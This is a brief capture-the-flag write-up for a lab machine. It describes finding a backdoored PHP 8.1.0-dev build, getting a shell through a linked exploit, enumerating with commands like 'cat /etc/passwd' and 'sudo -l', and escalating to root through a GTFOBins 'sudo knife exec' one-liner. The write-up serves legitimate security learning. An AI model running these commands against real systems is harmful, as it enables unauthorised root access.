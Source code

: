 ### What I Learned

1. Always check for GTFOBins
2. Looking back this was one of the first CTFs I did, so the writeup is sub par at best

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine, find a compromised version of PHP. Look up the compromised version and immediately find an exploit. Get a shell on the machine using the exploit or do it yourself using burp.
Run scans on the machine and find a command runnable with root access. Find a gtfobin for that program and get root access. 
</details>
<br>

## Writeup

Scan the machine

Get the version of php running on the machine

- `curl -I http://10.129.59.93`

Find an exploit that works on PHP 8.1.0-dev, but do it yourself so you actually learn
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

![alt text](images/image.png)

Get a reverse shell and run enumeration commands

- `cat /etc/passwd`
- `cat /etc/fstab`
- `sudo -l`

Find command you can run with root access
/usr/bin/knife

Find a gtfobin for the knife binary running on the machine

- `sudo knife exec -E 'exec "/bin/sh"'`
